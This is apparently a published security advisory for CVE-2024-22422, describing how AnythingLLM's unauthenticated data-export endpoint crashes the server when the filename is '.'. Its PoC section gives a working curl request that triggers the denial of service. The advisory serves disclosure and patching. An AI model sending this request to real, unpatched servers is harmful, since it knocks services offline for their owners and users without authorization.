 ```yaml
---
description: CVE-2024-22422, HIGH, An API route (file export) can allow an unauthenticated attacker to crash the AnythingLLM server resulting in a denial of service attack.
title: AnythingLLM Unhandled Exception DoS
date_published: "2024-01-22"
last_updated: "2024-01-22"
xray_id:
vul_id: CVE-2024-22422
cvss: 7.5
severity: high
discovered_by: Natan Nehorai
type: vulnerability

---
```


## Summary

An API route (file export) can allow an unauthenticated attacker to crash the AnythingLLM server resulting in a denial of service attack.

## Component

[AnythingLLM](https://github.com/Mintplex-Labs/anything-llm)



## Affected versions

No version tags. Fixed in commit [08d33cf](https://github.com/Mintplex-Labs/anything-llm/commit/08d33cfd8fc47c5052b6ea29597c964a9da641e2)



## Description

The “data-export” endpoint is used to export files using the filename parameter as user input.

The endpoint takes the user input, filters it to avoid directory traversal attacks, fetches the file from the server, and afterwards deletes it.

An attacker can trick the input filter mechanism to point to the current directory, and while attempting to delete it the server will crash as there is no error-handling wrapper around it.

Moreover, the endpoint is public and does not require any form of authentication, resulting in an unauthenticated Denial of Service issue, which crashes the instance using a single HTTP packet.



## PoC

As the API endpoint is unauthenticated there is only a need for a single HTTP request to crash the server:

```shell
curl -i -s -k -X $'GET' \
-H $'Host: localhost:3001' \
-H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' \
-H $'Accept: */*' \
-H $'Accept-Language: en-US,en;q=0.5' \
-H $'Accept-Encoding: gzip, deflate' \
-H $'Connection: close' \
$'http://localhost:3001/api/system/data-exports/.'
```



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Advisory](https://github.com/Mintplex-Labs/anything-llm/security/advisories/GHSA-xmj6-g32r-fc5q)

[Fix commit](https://github.com/Mintplex-Labs/anything-llm/commit/08d33cfd8fc47c5052b6ea29597c964a9da641e2)
